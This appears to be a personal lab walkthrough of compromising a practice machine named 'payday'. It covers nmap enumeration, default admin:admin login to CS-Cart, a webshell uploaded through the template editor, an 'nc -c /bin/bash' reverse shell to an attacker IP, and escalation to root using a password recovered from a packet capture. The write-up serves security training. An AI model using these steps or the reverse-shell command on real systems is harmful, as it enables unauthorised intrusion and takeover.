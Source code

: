 ### Enumeration
```
IP=192.168.214.39
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80,110,139,143,445,993,995 -A $IP
```
### Ports 
- 22
	- OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
- 80
	- Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
	- PHP/5.2.3-1ubuntu6
- 139
	- Samba smbd 3.X - 4.X
- 110
	- Dovecot pop3d
- 143
	- Dovecot imapd
- 445
	- Samba smbd 3.0.26a
- 993
	- ssl/imap    Dovecot imapd
- 995
	- ssl/pop3    Dovecot pop3d
### Foothold
- RPC/ SMB
	- enum4linux -U $IP
		- ![[Pasted image 20240708085110.png]]
		- domain: MSHOME
- 445
	- smbclient -N -L //$IP
		- anonymous login successful
		- shares
			- print$
			- IPC$
	- nmap --script smb-vuln* -p135,139,445 $IP
		- not vulnerable
- 80
	- ![[Pasted image 20240708085509.png]]
	- Version: Cs-cart
		- Multiple vulnerabilities for cs-cart
		- Running php pages
	- Login
		- admin:admin
			- successful
	- Directory Brute force
		- dirsearch -u http://$IP
			- /admin
				- admin:admin login successful
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
	- Exploits
		- https://gist.github.com/momenbasel/ccb91523f86714edb96c871d4cf1d05c
		- Go into template editor and upload webshell.phtml
		- http://192.168.214.39/skins/webshell.phtml
		- We can run commands
		- nc -c /bin/bash 192.168.45.195 443  >  RCE
### PE
#### Linux
- www-data
	- id
		- uid=33(www-data) gid=33(www-data) groups=33(www-data)
	- sudo -l
		- requires password
	- uname -a
		- Linux payday 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686 GNU/Linux
	- getcap -r / 2>/dev/null
		- nothing
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
	- Users with console
		- root
		- patrick
	- linpeas
		- /var/www/config.php
			- username: cscart
			- password: root
		- /root/.ssh/authorized_keys
			- `ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAzx6C2kxbb2qPx9eRyW072CYpMhpa2zAlzgdBcElRS49cvTJlDcjqvC8DlpZL9FplzcfpCmD2xisb0VdHUtG2iteYQG5WaxUEeHd4t9XRqA9zCU3QjKq4jIDoT1A54HYLoEBk/jTxjUbaczfoFSgcZEOivBIZEM6usJW4gDgbpok1UoxHfmn7rRs43rgBKxKMpFZyp0+MsDlvKMZUie6F0mY60E2YSlwoyLAJKi0q1/oWB5Kmd3YtP20LIsVqvmbX7zcMXwXgztff0Wxj1dps0x6i1StYx1l14sU84comlceyZjzeYpqMoL+4OtWt4goqTqpiQasnXfv2vhNvCQXQaQ== root@explorer`
			- ssh -i id_rsa.pub root@$IP
				- no matching key
			- ssh -i /root/.ssh/authorized_keys root@localhost
				- needs password
			- ssh2john id_rsa.pub > id.hash
				- couldn't parse keyfile
	- mysql -u cscart -p
		- ERROR 1045 (28000): Access denied for user 'cscart'@'localhost' (using password: YES)
	- /root
		- capture.cap
			- Move to A
			- wireshark
				- Password for brett: ilovesecuritytoo
				- ![[Pasted image 20240708095156.png]]
	- su patrick
		- patrick  -  successful
		- sudo -l
			- (ALL) ALL
		- sudo su
			- we are root
### Credentials
admin:admin  for port 80
### Lessons Learned
- Try basic password for su 